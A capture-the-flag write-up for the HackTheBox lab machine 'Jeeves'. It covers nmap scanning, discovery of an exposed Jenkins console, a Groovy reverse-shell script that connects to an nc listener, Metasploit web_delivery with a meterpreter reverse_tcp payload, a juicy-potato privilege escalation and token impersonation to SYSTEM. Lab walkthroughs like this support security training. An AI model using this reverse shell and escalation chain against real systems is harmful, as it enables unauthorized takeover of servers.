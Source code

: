 # Hackthebox - Jeeves

- Windows

![Jeeves](../.res/HTB-Jeeves.png)

- [Box on HTB](https://app.hackthebox.com/machines/114)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -A -p- 10.10.10.63                                                                                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 13:34 EDT
Nmap scan report for 10.10.10.63
Host is up (0.025s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10|7|Vista (88%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10:1607 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (88%), Microsoft Windows 10 1607 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows 7 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%), Microsoft Windows 10 1511 - 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-08T22:44:11
|_  start_date: 2022-04-08T22:41:38
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 5h07m23s, deviation: 0s, median: 5h07m23s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   24.57 ms 10.10.14.1
2   24.81 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.40 seconds
```

## Port 80

- We have this page  
![image](https://user-images.githubusercontent.com/96747355/162480794-234ea1a6-2011-4711-8a9f-314e2c507d5b.png)  
- It seems gives stack trace when trying to search for something  
![image](https://user-images.githubusercontent.com/96747355/162480895-aa19e42f-fb54-4856-8ad7-466d12a88bc0.png)  
- But it is just an image, indeed the action of the form will just go to error.html  
![image](https://user-images.githubusercontent.com/96747355/162491383-cb18df99-b49a-4756-90e3-799604a31d7f.png)  
- Gobuster does not give much

## Port 50000

- Here is what we see on the browser for this port:  
![image](https://user-images.githubusercontent.com/96747355/162493795-4fe4f32f-faab-4c7d-99ad-1f9b0a412953.png)  
- Gosbuster does not always work for the first time we need to use different wordlists, I tried a few before getting to the askjeeves result.
The one that gave the result is `directory-list-2.3-big.txt`  
![image](https://user-images.githubusercontent.com/96747355/162494821-57bd90c5-9d26-48f7-939a-870263ae7143.png)  
- If we navigate to /askjeeves we have a jenkins server  
![image](https://user-images.githubusercontent.com/96747355/162495024-ec8fd547-0209-4636-884a-b1875a8dd578.png)  
- If we go to jenkins cli we can use a jar and execute command from it  
![image](https://user-images.githubusercontent.com/96747355/162495714-82ed035e-60cf-4625-8789-efcb4a866a31.png)  
- If we look at the system info we get a user name: `kohsuke`
- Script console also seems interesting, let's try to get a reverse shell this way  
![image](https://user-images.githubusercontent.com/96747355/162497679-2689b9d3-30b4-4893-bde5-f37e39037565.png)  
We can find one online [here](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76):  
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- Let's set a listener `rlwrap nc -lvp 8044`
- It works we are `jeeves\kohsuke`  

![image](https://user-images.githubusercontent.com/96747355/162498078-6e956d86-11e2-4777-90b0-ce01df2862a4.png)  
- We can grab our user flag `type C:\Users\kohsuke\Desktop\user.txt`
- Here are our privileges  
![image](https://user-images.githubusercontent.com/96747355/162498730-ef2fc0c3-4e26-4ab7-9ddc-852a8d86f9df.png)  
We have the `SeImpersonatePrivilege` enabled  
- We can use [windows exploit suggester](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py) with sysinfo
  - `wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py`
  - `python windows-exploit-suggester.py -update` (to get the latest db file)
  - `python windows-exploit-suggester.py --database 2022-04-08-mssb.xls -i ../sysinfo.txt`
- We have a lot of options including potatoes

## Privesc with rotten potato

- Launch msfconsole
- `use exploit/multi/script/web_delivery`
- `show targets`
- `set target 2` for PSH
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost tun0`
- `set SRVHOST tun0`  
![image](https://user-images.githubusercontent.com/96747355/162503009-09193505-df80-40bc-a82d-ecfb66ab7e0f.png)  
- Now we just need to execute this in our target  
![image](https://user-images.githubusercontent.com/96747355/162503184-48f16a14-1aa9-47e1-bf00-58fb2009657f.png)  
- And we get a meterpreter session  
![image](https://user-images.githubusercontent.com/96747355/162503310-814f334c-1d69-4d5d-80c4-a9d94c3675c0.png)  
- Let's interact with it `sessions -i 1`
- To get the build in potato options lets use metasploit exploit suggester `run post/multi/recon/local_exploit_suggester`  
![image](https://user-images.githubusercontent.com/96747355/162503846-dd872c5a-8441-4438-878d-6aacc4ffd8a7.png)  
- Using ctrl+z lets now background the shell
- `use exploit/windows/local/ms16_075_reflection_juicy`
- `show options`
- `set session 1`
- `set LHOST tun0`
- `run`  
![image](https://user-images.githubusercontent.com/96747355/162506387-94421e6a-131a-49cf-a480-bd059561f668.png)  
- And it worked  
![image](https://user-images.githubusercontent.com/96747355/162506825-ffece6c6-6452-4fb5-91a3-980250db8dfd.png)  
- `load incognito`
- `list_tokens -u`
- `impersonate_token "NT AUTHORITY\SYSTEM"`
- Event though we got authority system the root flag is not here instead we have this  
![image](https://user-images.githubusercontent.com/96747355/162508399-2b49e318-02e9-4a1f-b127-2a54e6b320ca.png)  
- if we `dir /R` we can see our flag
- `more < hm.txt:root.txt:$DATA` we can do this to print it  
- [Here](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/) are a few methods on how to print alternate data streams
